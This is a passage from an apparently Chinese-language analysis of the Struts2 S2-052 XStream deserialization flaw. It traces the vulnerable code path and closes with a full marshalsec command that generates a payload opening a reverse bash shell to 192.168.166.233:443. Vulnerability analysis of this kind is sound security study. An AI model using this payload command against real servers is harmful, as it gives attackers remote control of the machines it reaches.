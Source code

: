 <img src="pic/struts2_s2-052_5.png">

跟进`XStreamHandler#toObject()`方法，发现调用了`XStream#fromXML()`方法对请求数据进行反序列化。

<img src="pic/struts2_s2-052_6.png">

`struts-rest-plugin-2.3.33`依赖的XStream的版本是`1.4.8`。故可以使用`marshalsec`生成`ImageIO`利用链的payload进行RCE的漏洞利用。

## 可回显PoC

对于xstream的反序列化命令执行回显，本人暂时不知道如何实现。<br>
下面使用`marshalsec`工具生成反弹shell的exploit：
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream ImageIO "/bin/bash" "-c" "bash -i >& /dev/tcp/192.168.166.233/443 0>&1"
```

<img src="pic/struts2_s2-052_1.png">
   